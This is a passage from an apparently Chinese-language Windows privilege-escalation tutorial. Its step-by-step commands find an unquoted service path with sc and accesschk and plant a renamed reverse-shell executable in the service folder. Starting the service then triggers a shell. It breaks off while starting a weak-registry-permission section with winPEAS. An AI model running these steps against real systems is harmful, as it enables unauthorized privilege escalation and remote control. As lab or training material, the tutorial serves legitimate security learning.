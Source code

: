 ![image-20210706152048316](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-6dcfb76e1c6b34119a1f6a44df59399df0ff6f8e.png)

##### 2. 发现"unquotedsvc"服务有一个未引用的路径 ，其中也 包含 空格：

```php
C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
```

##### 3. 使用sc确认此问题：

```php
sc qc unquotedsvc
```

![image-20210722220848934](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-02dd7a17d2889abac72096adee2c74d13d14b5de.png)

##### 4.使用accesschk.exe检查写入权限：

```php
.\accesschk.exe /accepteula -uwdq C:\ .\accesschk.exe /accepteula -uwdq "C:\Program Files\" .\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```

![image-20210722220941929](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-e5ef5913f1225acddbff73b8fb4d62df0e9f4888.png)

##### 5.复制可执行的反向外壳并适当重命名

```php
copy C:\Users\user\Desktop\a002.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```

![image-20210722221822270](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-133aa97a227f12ec0e571b82d63f142493dc525e.png)

##### 6.启动服务触发漏洞进行反弹shell

```php
net start unquotedsvc
```

### 3. 注册表权限弱

#### 前言

每个服务的窗口注册表存储条目。

由于注册表条目可能具有 ACL，如果 ACL 配置错误，即使我们不能直接修改服务，也有可能修改服务的配置。

#### 实操

##### 1.运行 winPEAS以检查服务配置错误：

```php
.\winPEASany.exe quiet servicesinfo
```

##### 2.发现"regsvc"服务的注册表输入较弱。我们可以用电源壳确认这一点：

